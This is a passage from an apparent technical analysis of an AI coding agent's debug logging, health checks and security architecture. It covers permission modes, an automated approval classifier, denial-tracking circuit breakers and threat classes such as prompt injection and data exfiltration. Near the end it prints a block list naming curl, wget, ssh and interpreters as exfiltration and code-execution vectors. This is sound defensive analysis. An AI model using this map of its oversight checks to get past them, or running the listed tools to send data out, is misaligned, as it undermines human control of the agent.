          // process.exit() and keep the event loop alive in beforeExit
          // handlers (infinite loop with Perfetto tracing). See #22257.
          if (needMkdir) {
            try {
              getFsImplementation().mkdirSync(dir)
            } catch {
              // Directory already exists
            }
          }
          getFsImplementation().appendFileSync(path, content)
          void updateLatestDebugLogSymlink()
          return
        }
        // Buffered path (ants without --debug): flushes ~1/sec so chain
        // depth stays ~1. .bind over a closure so only the bound args are
        // retained, not this scope.
        pendingWrite = pendingWrite
          .then(appendAsync.bind(null, needMkdir, dir, path, content))
          .catch(noop)
      },
      flushIntervalMs: 1000,
      maxBufferSize: 100,
      immediateMode: isDebugMode(),
    })
```

The `appendAsync` function handles directory creation and file appending for the buffered path. The `.bind(null, needMkdir, dir, path, content)` pattern captures only the bound arguments, preventing memory leaks from retaining the full `writeFn` closure scope (`src/utils/debug.ts:L138-L151`).

## Control flow

The debug logging flow follows two paths. In debug mode, writes are synchronous and immediate to prevent data loss on process exit. In non-debug mode (ant-only implicit logging), writes are buffered and flushed approximately once per second.

```mermaid
flowchart
    A[logForDebugging called] --> B{Level below minimum?}
    B -- yes --> C[Return, no log written]
    B -- no --> D{shouldLogDebugMessage?}
    D -- no --> C
    D -- yes --> E{hasFormattedOutput and multiline?}
    E -- yes --> F[JSON.stringify the message]
    E -- no --> G[Keep message as-is]
    F --> H[Format: timestamp + LEVEL + message]
    G --> H
    H --> I{isDebugToStdErr?}
    I -- yes --> J[Write to stderr]
    I -- no --> K[Write via BufferedWriter]
    K --> L{isDebugMode?}
    L -- yes --> M[appendFileSync immediate]
    L -- no --> N[Buffered, flush ~1/sec]
```

The core logging function performs level filtering, message sanitization, and format conversion before dispatching to the writer. The output format is JSONL: each line starts with an ISO timestamp, followed by the level in uppercase brackets, followed by the trimmed message:

```typescript
// src/utils/debug.ts:L203-L228 Core logging function with level filtering and format conversion
export function logForDebugging(
  message: string,
  { level }: { level: DebugLogLevel } = {
    level: 'debug',
  },
): void {
  if (LEVEL_ORDER[level] < LEVEL_ORDER[getMinDebugLogLevel()]) {
    return
  }
  if (!shouldLogDebugMessage(message)) {
    return
  }

  // Multiline messages break the jsonl output format, so make any multiline messages JSON.
  if (hasFormattedOutput && message.includes('\n')) {
    message = jsonStringify(message)
  }
  const timestamp = new Date().toISOString()
  const output = `${timestamp} [${level.toUpperCase()}] ${message.trim()}\n`
  if (isDebugToStdErr()) {
    writeToStderr(output)
    return
  }

  getDebugWriter().write(output)
}
```

Debug mode detection checks multiple sources, including runtime toggling. The `isDebugMode` function is memoized for performance but the cache can be cleared when runtime debug is enabled:

```typescript
// src/utils/debug.ts:L44-L57 isDebugMode memoized check across multiple sources
export const isDebugMode = memoize((): boolean => {
  return (
    runtimeDebugEnabled ||
    isEnvTruthy(process.env.DEBUG) ||
    isEnvTruthy(process.env.DEBUG_SDK) ||
    process.argv.includes('--debug') ||
    process.argv.includes('-d') ||
    isDebugToStdErr() ||
    // Also check for --debug=pattern syntax
    process.argv.some(arg => arg.startsWith('--debug=')) ||
    // --debug-file implicitly enables debug mode
    getDebugFilePath() !== null
  )
})
```

The `enableDebugLogging` function allows mid-session activation (e.g., via `/debug`). It sets `runtimeDebugEnabled` and clears the `isDebugMode` cache:

```typescript
// src/utils/debug.ts:L64-L69 Runtime debug activation with cache invalidation
export function enableDebugLogging(): boolean {
  const wasActive = isDebugMode() || process.env.USER_TYPE === 'ant'
  runtimeDebugEnabled = true
  isDebugMode.cache.clear?.()
  return wasActive
}
```

The log path defaults to `~/.claude/debug/{sessionId}.txt` but can be overridden via `--debug-file` or the `CLAUDE_CODE_DEBUG_LOGS_DIR` environment variable (`src/utils/debug.ts:L230-L236`).

The `updateLatestDebugLogSymlink` function creates a symlink at `~/.claude/debug/latest` pointing to the current session's log file, memoized and silently failing on read-only filesystems (`src/utils/debug.ts:L242-L253`).

The `shouldLogDebugMessage` function implements a multi-layered filter. In test environments without `--debug-to-stderr`, all debug output is suppressed. For non-ant users who have not enabled debug mode, no messages are written. For ant users, messages are always written regardless of the debug flag (`src/utils/debug.ts:L104-L125`).

### Doctor screen

The `/doctor` command provides a structured health-check screen. When invoked, it runs a sequence of diagnostic checks and displays results in a formatted table:

1. **Runtime environment** -- verifies the Bun version, Node.js compatibility, and required system tools (git, etc.) on PATH.
2. **Network connectivity** -- tests connectivity to the Anthropic API endpoint, MCP server endpoints (if configured), and custom proxy settings. A failed check here explains why a session might hang on model invocation.
3. **Tool availability** -- confirms that each tool in the active tool set can be instantiated and that its dependencies (e.g., LSP servers for LSPTool, ripgrep for GrepTool) are present.
4. **Permission surface** -- audits the current permission mode and any active rules, flagging configurations that might block expected workflows (e.g., plan mode restricting all write tools).
5. **Session health** -- checks the current session's context window utilization, token consumption rate, and whether compaction has been triggered recently.

```mermaid
sequenceDiagram
    participant User
    participant REPL
    participant DoctorScreen
    participant RuntimeCheck
    participant NetworkCheck
    participant ToolCheck
    participant PermissionCheck
    participant SessionCheck

    User->>REPL: /doctor
    REPL->>DoctorScreen: invoke()
    DoctorScreen->>RuntimeCheck: runChecks()
    RuntimeCheck-->>DoctorScreen: {bun: "1.x", git: "ok", node_compat: true}
    DoctorScreen->>NetworkCheck: runChecks()
    NetworkCheck->>NetworkCheck: test API endpoint
    NetworkCheck->>NetworkCheck: test MCP servers
    NetworkCheck-->>DoctorScreen: {api: "ok", mcp: ["server1: ok", "server2: timeout"]}
    DoctorScreen->>ToolCheck: runChecks()
    ToolCheck->>ToolCheck: verify ripgrep, LSP, etc.
    ToolCheck-->>DoctorScreen: {rg: "ok", lsp: "not configured"}
    DoctorScreen->>PermissionCheck: runChecks()
    PermissionCheck-->>DoctorScreen: {mode: "default", rules: 3, conflicts: 0}
    DoctorScreen->>SessionCheck: runChecks()
    SessionCheck-->>DoctorScreen: {context_pct: 42, compactions: 0}
    DoctorScreen-->>REPL: formatted results table
    REPL-->>User: display doctor report
```

The doctor screen is a read-only diagnostic surface. It gives operators a snapshot of whether their cc environment is healthy before starting a long-running session, or identifies the root cause of failures in an ongoing session. Results are also written to the debug log at `info` level.

On the post-hoc vs. real-time spectrum, the doctor screen sits firmly on the on-demand end. It cannot detect failures as they occur because it has no mechanism for continuous execution -- the operator must invoke it, read the results, and decide whether the state it reports is acceptable. For the harness to detect its own failures in real time, the doctor's checks would need to run as a background loop that compares infrastructure state against expected invariants and surfaces anomalies immediately. Today, nothing in cc's architecture enables this. The event loop is consumed by the query loop (Chapter 7), and the Ink renderer occupies the terminal. A continuous doctor would require an out-of-band observer, the same architectural addition identified later in this chapter for real-time failure detection. The doctor's checks are sound; what is missing is the trigger mechanism that runs them automatically and surfaces violations without human initiation.

### Security review command

The security review command (invoked via `/security-review`) provides an audit of the current session's security surface:

1. **Permission mode and rules** -- reports the active permission mode and lists all loaded permission rules, highlighting any that allow write access or bypass permissions.
2. **MCP server trust surface** -- lists all connected MCP servers and their tool counts, flagging servers that were connected without explicit user approval or that provide tools with dangerous capabilities (file system access, command execution).
3. **Hook surface** -- enumerates all registered hooks (PreToolUse, PostToolUse, etc.) and their types (command, prompt, HTTP, agent, function), flagging hooks that run external commands or make HTTP requests, since these can be vectors for supply-chain attacks as described in HER Section 12.4.
4. **CLAUDE.md and settings surface** -- reports which CLAUDE.md files are loaded and their approximate size, and lists any managed settings or policy overrides that constrain the agent's behavior.
5. **Active subagent surface** -- lists currently running subagents, their permission modes, and whether they have been granted broader permissions than the parent session.

The security review does not modify any state. It gives operators visibility into the attack surface of their current session, directly addressing HER Section 12.4's concern about supply-chain attacks via MCP, skills, and hooks: the security review makes the trust boundary explicit by showing which external systems the agent is connected to and what capabilities they have.

Like the doctor screen, the security review is on-demand rather than continuous. It cannot detect trust-surface changes in real time -- if an MCP server reconnects with a different tool schema, or a hook is registered mid-session by a skill, the security review does not flag this until the operator invokes it again. For a long-running agent, the trust surface mutates over the course of a session: subagents are spawned with their own permissions, MCP servers connect and disconnect, and hooks fire in response to events the operator may not be aware of. A real-time security monitor would continuously compare the current trust surface against a baseline established at session start and alert on drift. cc has no such mechanism. The security review provides the data; what is missing is the loop that evaluates it against policy and surfaces violations without human initiation. This is the same architectural gap identified in the doctor screen analysis and the post-hoc observability discussion: cc's diagnostic surfaces are sound individually, but none of them close the loop from observation to automatic alert.

### Perf issue collection

The perf issue collection workflow gathers diagnostic data into a structured report shareable with the cc team. When invoked, the system:

1. **Collects debug logs** -- reads the current session's debug log file, truncating to the last 100KB.
2. **Collects session metadata** -- gathers the session ID, start time, token consumption, tool call count, and error count.
3. **Collects system information** -- records OS version, Bun version, cc version, terminal type, and available memory/CPU cores.
4. **Sanitizes PII** -- removes file paths, user names, and content matching PII patterns before writing the report.
5. **Writes the report** -- outputs the sanitized report to a temporary file for the operator to share.

For long-running agents, bugs may only manifest after hours of operation and the debug log can be enormous. The issue collector reduces this burden by selecting the most recent log data and sanitizing it for safe sharing.

### Diag logs

Beyond the primary debug log file, cc maintains separate diagnostic logs (diag logs) for specific subsystems, written to the same `~/.claude/debug/` directory with distinct naming conventions:

1. **API diagnostic logs** -- record full request and response payloads for Anthropic API calls when `CLAUDE_CODE_DEBUG_LOG_LEVEL=verbose` is set, including the complete system prompt, tool definitions, and model responses.
2. **MCP diagnostic logs** -- record MCP server connection events, tool invocation requests and responses, and transport-level errors. Essential for diagnosing MCP server connectivity, timeout handling, and tool schema mismatches.
3. **Hook diagnostic logs** -- record hook invocation events, including the hook type, matcher, exit code, and execution duration. Useful for diagnosing issues where hooks are blocking tool calls unexpectedly.

The diag logs share the same `LEVEL_ORDER` and `shouldLogDebugMessage` filtering as the main debug log, but are written to separate files to avoid interleaving. Separate files let the operator focus on one subsystem while correlating events across files using timestamps.

The diag log paths follow the convention `~/.claude/debug/{sessionId}-{subsystem}.txt` (e.g., `abc123-api.txt`, `abc123-mcp.txt`). The `updateLatestDebugLogSymlink` function only updates the symlink for the main debug log, not the diag logs.

## Edge cases and failure modes

**Multiline message handling.** When `hasFormattedOutput` is true (the Ink renderer has started drawing), multiline messages are JSON-stringified to preserve the JSONL format (`src/utils/debug.ts:L217-L219`). The `jsonStringify` helper from `slowOperations.ts` avoids the O(n^2) performance of naive string concatenation for large messages.

**Buffered writes lost on process.exit().** In non-debug mode, the buffered writer flushes every second. Abrupt exits lose unflushed writes. The `registerCleanup` call at `src/utils/debug.ts:L190-L193` attempts to flush on graceful shutdown, but nothing guarantees flush on hard exit.

**Debug filter pattern matching.** The `--debug=pattern` flag allows filtering debug output to specific modules or functions. Invalid filter patterns degrade gracefully to "show all" or "show none." The `getDebugFilter` function is memoized, so the pattern is parsed only once per session (`src/utils/debug.ts:L73-L83`).

**Ant-only error logging.** The `logAntError` function at `src/utils/debug.ts:L258-L268` only writes errors when `USER_TYPE === 'ant'`. For external users, critical runtime errors are only visible if debug mode is explicitly enabled. This gap is analyzed in detail in the "ant-vs-external observability divide" section below.

**Latest symlink race.** The `updateLatestDebugLogSymlink` function (`src/utils/debug.ts:L242-L253`) is memoized and asynchronous. If two cc processes start simultaneously, the symlink may point to the wrong session's log. The symlink is advisory; the actual session ID is always available from `getSessionId()`.

**Debug mode and the event loop.** The source code comment at `src/utils/debug.ts:L165-L167` warns that immediate-mode synchronous writes are necessary because "async writes keep the event loop alive in beforeExit handlers (infinite loop with Perfetto tracing)." Switching from sync to async writes in debug mode would cause an infinite loop: `beforeExit` would flush pending writes, scheduling microtasks, preventing exit, and triggering `beforeExit` again.

**Directory creation race in buffered mode.** If the debug directory is deleted between flushes, the `needMkdir` flag will be stale and `appendFile` will fail silently (the `.catch(noop)` swallows the error), meaning the log entry is lost without any indication (`src/utils/debug.ts:L146-L151`).

**Debug writer disposal.** `process.exit()` does not wait for async cleanup handlers. The `flushDebugLogs` function (`src/utils/debug.ts:L198-L201`) provides an explicit flush API for code paths that know they are about to exit.

**Doctor screen in headless mode.** The `/doctor` command relies on the Ink renderer. In headless mode (e.g., CI/CD pipelines), the doctor screen cannot render its formatted output. In this case, the diagnostic results are written to the debug log at `info` level instead.

**Security review and stale MCP connections.** If an MCP server has disconnected but the connection state has not been updated, the security review may report it as "connected" when it is actually unreachable.

**Perf issue collection and log rotation.** If the debug log has been rotated or truncated by an external process, the perf issue collector may find an empty or partial file.

**Diag logs and disk space.** For long-running sessions with verbose logging, combined log sizes can grow to hundreds of megabytes. The `~/.claude/debug/` directory has no automatic size limits or rotation.

## The post-hoc vs. real-time observability spectrum

This section is the chapter's central argument. The preceding sections documented what each diagnostic surface does. This section explains why all of them share the same fundamental limitation -- they are post-hoc, not real-time -- and what that means for a production long-running agent.

cc's entire observability stack sits firmly on the post-hoc end of the spectrum. Every diagnostic surface in this chapter -- the debug log, the diag logs, the doctor screen, the security review, the perf issue collector -- records or inspects state after the fact. None of them constitute real-time self-monitoring. This is not an oversight but an architectural consequence of three constraints inherent to cc's design.

**Constraint 1: The single-threaded event loop.** cc runs on Bun's single-threaded event loop. A real-time monitor would need to observe the loop from outside it -- a separate thread or process that can inspect the agent's state without being blocked by the agent's own computation. cc has no such observer. The `queryLoop` in `src/query.ts` (Chapter 7) is a sequential async generator; there is no yield point where an independent monitor can run a health check without being scheduled by the loop itself. A monitor inside the loop is subject to the same hangs it is trying to detect.

**Constraint 2: The terminal as the only UI surface.** The Ink renderer occupies the terminal's screen buffer. There is no separate window, web dashboard, or side panel where live telemetry could be displayed. The REPL shows the current turn's status but cannot simultaneously display session-level aggregates (cumulative token consumption, error rate, context window saturation trend). The doctor screen is a full-screen overlay that replaces the REPL; it cannot run alongside it.

**Constraint 3: The opt-in logging model.** For external users, debug logging is disabled by default. `shouldLogDebugMessage` returns `false` unless `--debug` is passed or `USER_TYPE === 'ant'`. The majority of cc sessions run without any debug log being written. A real-time monitoring system that depends on the debug log for its data stream would be useless for the users who need it most -- those who did not anticipate the failure and therefore did not enable `--debug` at startup. The `enableDebugLogging` mid-session activation partially addresses this, but the evidence leading up to the bug is lost.

### Where cc sits on the spectrum

The following table maps cc's observability surfaces to their position on the post-hoc/real-time spectrum:

| Surface | Timing | Trigger | Scope |
|---|---|---|---|
| Debug log (`logForDebugging`) | Post-hoc | Automatic (when enabled) | Every event |
| Diag logs (API, MCP, hook) | Post-hoc | Automatic (when verbose) | Per-subsystem |
| `/doctor` command | On-demand | Manual invocation | Infrastructure health |
| `/security-review` command | On-demand | Manual invocation | Trust surface |
| Perf issue collector | Post-hoc | Manual invocation | Recent session data |
| REPL status display | Near-real-time | Automatic | Current turn only |

cc has no surface in the "continuous, automatic, real-time" quadrant. The nearest is the REPL status display, but it shows only the current turn's model streaming output and tool call results -- it does not aggregate across turns or detect anomalies

### What a reader would need to add for real-time failure detection

To move from post-hoc observability to real-time self-monitoring, a reader building on cc would need to implement three components:

1. **An out-of-band observer process.** A separate process (or Bun worker thread) that reads the debug log file as it is written (via `fs.watch` on the latest symlink or `tail -f`-style streaming) and applies anomaly detection rules. This observer is not subject to the main loop's hangs because it runs on a separate thread of execution. The JSONL format makes this feasible: each line is a self-contained record, so the observer can parse and evaluate rules incrementally without needing the full file.

2. **Structured anomaly detection rules.** The debug log records tool call results, including errors, but the agent loop does not evaluate them for patterns. A real-time monitor would apply rules such as: "if the last 5 tool calls of type `FileEditTool` all logged `error` level entries, alert the operator" or "if no `model_response` entry has appeared in the log for 60 seconds while the loop is in `tool_dispatch` state, the agent may be in an infinite tool loop" (HER Section 6.7). The debug log's level field provides the signal; the monitor provides the evaluation.

3. **A notification surface independent of the terminal.** Since the terminal is occupied by the Ink renderer, the observer needs an alternative notification channel: a desktop notification, a webhook, a distinct log file, or a signal to the parent process (for IDE bridge users, the bridge could relay the notification). Without an independent channel, a real-time monitor has no way to surface anomalies without interrupting the agent's rendering.

### The ant-vs-external observability divide and its production consequences

As described in the Overview, cc's debug logging has a dual identity: always active for `ant` users, opt-in for external users. This creates an architectural asymmetry with real consequences for production incident diagnosis. The `logAntError` function (`src/utils/debug.ts:L258-L268`) compounds this by writing error-level entries only when `USER_TYPE === 'ant'`, meaning that for external users, critical runtime errors -- unhandled promise rejections, tool dispatch failures, MCP server crashes -- are silently swallowed unless `--debug` was enabled.

Consider a concrete production scenario: an external user runs cc in autonomous mode on a large codebase for six hours. After four hours, an MCP server that provides a critical tool crashes silently -- the server process exits without sending a close frame, cc's MCP connection manager has not yet detected the disconnection, and the next tool call to that server hangs indefinitely. The agent, receiving no response, eventually times out and retries, but the server is still down. After several retries, the agent falls into an infinite tool-loop pattern (HER Section 6.7), repeatedly calling the same MCP tool and timing out. The session burns tokens and time without making progress. When the user reports this bug, the debug log is empty because `--debug` was not passed. The `logAntError` calls that would have recorded the MCP server crash were suppressed because `USER_TYPE` is not `ant`. The only evidence is the session's JSONL conversation file, which records tool call inputs and outputs but not the connection-state transitions that would explain why the tool calls hung. The bug is unreproducible because it depends on the MCP server's runtime state, which the user cannot recreate.

Now consider the same scenario for an ant user. The debug log is always active. The MCP server crash produces an `error`-level entry via `logAntError`. The infinite tool loop produces a rapid succession of `warn`-level entries for each timeout. The developer who receives the bug report has a complete timeline: when the MCP server crashed, when the first hang occurred, how many retries the agent attempted, and what the agent was doing immediately before the crash. The bug is diagnosable in minutes rather than hours, and the fix (a health-check heartbeat for MCP connections) is informed by evidence rather than speculation.

The architectural implication is that cc's observability model assumes an operator who can reproduce bugs on demand. For internal users, this is reasonable. For external users running multi-hour autonomous sessions, reproduction is often impractical -- the evidence that would diagnose the failure was never written. This is not merely a convenience gap; it is a correctness gap. A long-running agent that cannot produce diagnostic evidence for its most severe failures cannot be trusted to operate autonomously. A production-ready long-running agent must close this gap by ensuring that error-level entries are always written regardless of user type, while still gating verbose and debug levels behind the `--debug` flag. The distinction should be between log levels (errors are always important) rather than between user types.

This divide also has implications for the real-time monitoring pathway. If an external observer process were added to cc (as described in the "What a reader would need to add" section), it would depend on the debug log as its data source. For ant users, this data source is always available. For external users, the observer would have no data to process unless `--debug` was enabled. The observer's value is therefore conditional on the same opt-in model that limits post-hoc diagnosis. Any real-time monitoring design must first solve the data-availability problem -- ensuring that the events the observer needs are always written -- before it can add the anomaly-detection logic.

### HER Section 6.6 and automated silent-failure detection

HER Section 6.6 identifies "silent failures" as the failure mode where an agent proceeds after tool errors as if successful. cc's tool dispatch pipeline (Chapter 12) addresses this structurally: every tool call's output is validated against the tool's schema. But structural validation catches format errors, not semantic ones. A `FileEditTool` call that replaces the correct line but introduces a syntax error passes structural validation -- the tool returned a success string, the format is correct, the model proceeds.

The debug log's JSONL format provides the raw material for automated detection of such semantic silent failures. Each tool call produces a log entry with a timestamp, level, and message. A post-processing pass (or a real-time observer) could apply rules beyond structural validation:

- **Error-level clustering.** If multiple consecutive tool calls produce `warn` or `error` level entries, the agent may be in a degraded state. The observer can count the error density over a sliding window and alert when it exceeds a threshold.

- **Tool-result vs. follow-up-action correlation.** If a `FileEditTool` call logs a success but the very next action is another `FileEditTool` call to the same file, the first edit likely introduced a problem the model is now attempting to fix. This pattern -- a rapid succession of edits to the same file -- is a strong signal of a semantic silent failure that structural validation did not catch.

- **Absence-of-verification detection.** After a modification tool call (write, edit, bash), the agent should verify the result (e.g., by reading the file, running a test). If the debug log shows a modification followed immediately by an unrelated action (not a read or test of the modified file), the agent may have proceeded without verification. The JSONL format makes this detectable: parse log entries, identify tool call types, and flag sequences where a modification is not followed by a verification step within the next N entries.

cc does not implement any of these detection strategies today. The debug log is a passive record, not an active sensor. But the JSONL format makes all three strategies implementable without changes to the logging system -- only an observer process that reads and evaluates the log is needed.

### HER Section 14.1: The three-pillar gap

HER Section 14.1 describes three pillars for agent observability: traces, metrics, and logs. cc implements only the "logs" pillar. Each debug log entry is an isolated line with a timestamp and level, not a span in a trace context. Correlation across tool calls, subagent dispatches, and model invocations must be done post-hoc by searching the JSONL file. The diag logs further fragment the picture by splitting per-subsystem logs into separate files. For a single-process terminal agent this is adequate; for a multi-agent distributed system, proper span correlation would be needed.

HER Section 14.3 describes a "multi-hour session dashboard" with progress tracking, health monitoring, cost visibility, and quality trending. cc does not implement this. The debug log can be tailed (`tail -f ~/.claude/debug/latest`), but this does not provide aggregated metrics. The doctor screen provides a snapshot but must be invoked manually and does not update in real time.

## Developer takeaways for building a long-running agent

1. **Synchronous writes in debug mode prevent data loss on crash.** When the agent is being debugged, every log write uses `appendFileSync` instead of the buffered async path. If the agent crashes, the last few log entries are the most valuable for diagnosis. Sync writes guarantee they are on disk; buffered writes do not.

2. **Per-session log files with a latest symlink enable rapid diagnosis.** The `getDebugLogPath` function generates a unique log file per session, and `updateLatestDebugLogSymlink` points `~/.claude/debug/latest` to the current session's file. Per-session log files prevent a single giant log file and the latest symlink eliminates the need to find the current session ID.

3. **Log level filtering must be configurable at runtime, not only at startup.** The `enableDebugLogging` function (`src/utils/debug.ts:L64-L69`) allows mid-session activation of debug logging (e.g., via `/debug` command). For long-running agents, a bug may only manifest hours into a session; the operator needs a way to activate logging without restarting.

4. **Multiline messages must be JSON-encoded in JSONL logs.** The `hasFormattedOutput` check and `jsonStringify` conversion at `src/utils/debug.ts:L217-L219` ensure that stack traces do not break the JSONL format. Log files must be machine-parseable to support automated anomaly detection and forensic analysis.

5. **The observability gap requires active validation, not passive logging.** cc's debug logging records what happened but does not validate whether what happened was correct. For long-running agents, passive logging is necessary but not sufficient -- the agent must also include active validation checks after every tool call, verifying that the output meets semantic requirements (not merely that the API returned 200).

6. **The sync-vs-async logging tradeoff is fundamental.** Sync writes guarantee crash safety but block the event loop; async writes are fast but may lose the most valuable entries. The `#22257` reference in the source code shows that async writes caused an infinite loop with Perfetto tracing.

7. **Debug filtering by pattern enables targeted diagnosis.** The `--debug=pattern` flag allows operators to filter debug output to specific subsystems. For long-running agents that produce millions of log entries, pattern-based filtering reduces the signal-to-noise ratio.

8. **The ant-vs-external observability gap requires mitigation.** As analyzed above, cc's `logAntError` function only writes errors for ant users. For long-running agents, always write error-level logs regardless of user type, while gating verbose and debug levels behind `--debug`. An error that is silently swallowed in an external build is an error that will be reported as "the agent stopped working" with no diagnostic trail.

9. **Active health checks complement passive logging.** The `/doctor` command provides a structured health-check that complements the debug log's passive recording. For long-running agents, operators should be able to trigger health checks on demand without restarting the agent.

10. **Security surface auditing should be built in, not bolted on.** The security review command makes the trust boundary of a session explicit. For long-running agents, the trust surface changes over time -- a security review that can be invoked at any point gives operators the ability to audit before delegating sensitive work.

11. **Perf issue collection should be automated and sanitized.** The perf issue collection workflow automatically gathers debug logs, session metadata, and system information into a sanitized report. PII sanitization is essential: long-running agent logs may contain file paths, code snippets, and user names that should not be included in shared reports.
# Threat Model: CC Through the Lens of HER Section 12

## Overview

HER Section 12 describes a five-layer defense-in-depth model for agent security: prompt-level guardrails, schema-level restrictions, runtime approval, tool-level validation, and lifecycle hooks. This chapter walks each of those layers and maps it to cc's concrete implementations, then extends the analysis to cover the specific threat classes that HER identifies as critical for production multi-hour systems: indirect prompt injection, supply chain attacks via MCP/skills, system prompt leakage, data exfiltration through tool calls, and checkpoint-restore attacks.

cc implements all five layers, but with significant variations in depth. The runtime approval system (permission modes, classifiers, denial tracking) is the most mature layer, backed by over 11,000 lines of code across the permissions module. The lifecycle hooks layer is also well-developed, with deterministic shell-command execution at PreToolUse and PostToolUse events. The prompt-level and schema-level layers are thinner but functional. The most notable gaps are in the supply-chain and checkpoint-restore threat classes, where cc relies on social controls (vetting MCP servers, user review of agent actions) rather than technical enforcement.

The permissions module is the largest single security subsystem in cc. The `permissions.ts` file alone is 1,486 lines, with additional logic spread across `bashClassifier.ts` (61 lines, stub for external builds), `yoloClassifier.ts` (1,495 lines), `filesystem.ts` (1,777 lines), `dangerousPatterns.ts` (80 lines), `denialTracking.ts` (45 lines), `autoModeState.ts` (39 lines), and `permissionRuleParser.ts` (198 lines). The BashTool's security submodules add another 5,000+ lines: `bashSecurity.ts` (2,592), `bashPermissions.ts` (2,621), `readOnlyValidation.ts` (1,990), `pathValidation.ts` (1,303), and `modeValidation.ts` (115). This concentration of security logic in the BashTool makes sense: the Bash tool is the highest-risk tool in the system because it can execute arbitrary shell commands, and it requires the most thorough validation.

HER Section 12.4 identifies five specific threat classes for agent systems. Each represents a different attack vector and requires different mitigations. The OpenClaw incident (CVE-2025-53773, CVSS 9.6) demonstrates that these are not theoretical concerns: an open-source agent framework with 135,000 GitHub stars had a remote code execution vulnerability through its tool interface, affecting 21,000 exposed instances. For cc, the lesson is clear: every tool interface is an attack surface, and the combination of prompt injection (which can cause the model to call tools in unexpected ways) and tool execution (which can cause real-world side effects) creates a compound risk that is greater than either alone.

The permission mode system implements a privilege boundary model that maps to HER Section 12.3's "Privilege Boundaries" pattern. In `plan` mode, the agent is restricted to read-only operations -- it can explore the codebase but cannot modify files. In `acceptEdits` mode, the agent can edit files but still requires approval for shell commands. In `auto` mode, the YOLO classifier can approve or deny operations without human intervention, but it is constrained by the dangerous patterns list and the denial tracking circuit breaker. In `bypassPermissions` mode, all operations are allowed -- this is the highest-risk mode and is visually indicated with an error color in the REPL (`src/utils/permissions/PermissionMode.ts:L44-L91`).

HER Section 12.4 identifies five specific threat classes for agent systems. cc has partial defenses against each, but the coverage is uneven. The strongest defenses are against indirect prompt injection (via the SSRF guard and path traversal protection) and data exfiltration (via the permission system and path guards). The weakest defenses are against supply chain attacks (MCP servers can execute arbitrary code) and checkpoint-restore attacks (no idempotency keys for external operations). This uneven coverage is characteristic of a security posture that has been built incrementally in response to specific incidents rather than designed holistically from a threat model.

## Data structures and contracts

The permission mode enum defines the operational regimes for tool access. Each mode has a title, short title, symbol, color, and external mapping:

```typescript
// src/types/permissions.ts:L29
export type PermissionMode = InternalPermissionMode
```

where `InternalPermissionMode` expands to `'default' | 'plan' | 'acceptEdits' | 'bypassPermissions' | 'dontAsk' | 'auto' | 'bubble'`. The type is defined in `src/types/permissions.ts` to break import cycles and re-exported from `src/utils/permissions/PermissionMode.ts` (lines 14-19).

Each mode maps to an `ExternalPermissionMode` for SDK consumers, with `auto` excluded from external APIs since it is ant-only. The `isExternalPermissionMode` function ensures that ant-only modes are not exposed to external SDK users:

```typescript
// src/utils/permissions/PermissionMode.ts:L97-L105
export function isExternalPermissionMode(
  mode: PermissionMode,
): mode is ExternalPermissionMode {
  if (process.env.USER_TYPE !== 'ant') {
    return true
  }
  return mode !== 'auto' && mode !== 'bubble'
}
```

The permission rule value carries the tool name and optional content for scoped rules. A rule like `Bash(npm install)` allows the Bash tool only when the command starts with `npm install`:

```typescript
// src/utils/permissions/PermissionRule.ts:L32-L39
export const permissionRuleValueSchema = lazySchema(() =>
  z.object({
    toolName: z.string(),
    ruleContent: z.string().optional(),
  }),
)
```

The permission behavior schema defines the three possible actions a rule can specify: allow the tool to run, deny the tool, or force a prompt to the user:

```typescript
// src/utils/permissions/PermissionRule.ts:L25-L27
export const permissionBehaviorSchema = lazySchema(() =>
  z.enum(['allow', 'deny', 'ask']),
)
```

The denial tracking state monitors classifier behavior to detect when the automated approval system should fall back to human prompting. The limits are conservative: 3 consecutive denials or 20 total denials trigger a fallback:

```typescript
// src/utils/permissions/denialTracking.ts:L7-L16
export type DenialTrackingState = {
  consecutiveDenials: number
  totalDenials: number
}

export const DENIAL_LIMITS = {
  maxConsecutive: 3,
  maxTotal: 20,
} as const
```

The auto mode circuit breaker state prevents re-entry after a kill switch activates. Once the circuit is broken, auto mode cannot be re-entered even if the user explicitly requests it:

```typescript
// src/utils/permissions/autoModeState.ts:L9
let autoModeCircuitBroken = false
```

The circuit-broken state is exposed through an accessor that returns the current flag value:

```typescript
// src/utils/permissions/autoModeState.ts:L31-L33
export function isAutoModeCircuitBroken(): boolean {
  return autoModeCircuitBroken
}
```

The dangerous patterns list defines code-execution entry points that auto mode must never allow-list. The list includes interpreters, package runners, and shells:

```typescript
// src/utils/permissions/dangerousPatterns.ts:L18-L42
export const CROSS_PLATFORM_CODE_EXEC = [
  'python', 'python3', 'python2',
  'node', 'deno', 'tsx',
  'ruby', 'perl', 'php', 'lua',
  'npx', 'bunx', 'npm run', 'yarn run', 'pnpm run', 'bun run',
  'bash', 'sh',
  'ssh',
] as const
```

The ant-only extensions add network exfiltration vectors (curl, wget, gh api) and cloud resource mutation tools (kubectl, aws, gcloud) to the dangerous patterns list:

```typescript
// src/utils/permissions/dangerousPatterns.ts:L57-L79
  ...(process.env.USER_TYPE === 'ant'
    ? [
        'fa run',
        'coo',
        'gh',
        'gh api',
        'curl',
        'wget',
        'git',
        'kubectl',
        'aws',
        'gcloud',
        'gsutil',
      ]
    : []),
```

## Control flow

The five-layer defense-in-depth model maps onto cc's permission pipeline. Each layer acts as a filter: if any layer blocks the operation, the tool call does not execute.

```mermaid
flowchart
    A[Model requests tool call] --> B["Layer 1: Prompt-level guardrails"]
    B --> C["Layer 2: Schema-level restrictions"]
    C --> D["Layer 3: Runtime approval system"]
    D --> E["Layer 4: Tool-level validation"]
    E --> F["Layer 5: Lifecycle hooks"]
    F --> G[Tool executes]

    B -- "blocked by system prompt" --> X[Tool call denied]
    C -- "Zod validation fails" --> X
    D -- "permission denied" --> X
    E -- "tool safety check fails" --> X
    F -- "hook returns non-zero" --> X
```

Layer 1 (prompt-level guardrails) includes instructions in the system prompt about what not to do (e.g., "never commit .env files", "never push to main"). These are soft constraints that the model can ignore, but they set behavioral expectations. The system prompt assembly process (covered in Chapter 9) injects these instructions as part of the base prompt.

Layer 2 (schema-level restrictions) uses Zod schemas for tool input validation. Every tool defines its input schema with `z.object({...})`, and invalid inputs are rejected before the tool executes. This prevents the model from passing malformed arguments (e.g., a negative line number to the Edit tool) that could cause unexpected behavior.

Layer 3 (runtime approval system) is the most complex layer. Its decision flow considers the current permission mode, any user-defined rules, the YOLO classifier (in auto mode), and denial tracking:

```mermaid
flowchart
    A[Tool use requested] --> B{Permission mode?}
    B -- bypassPermissions --> C[Allow all]
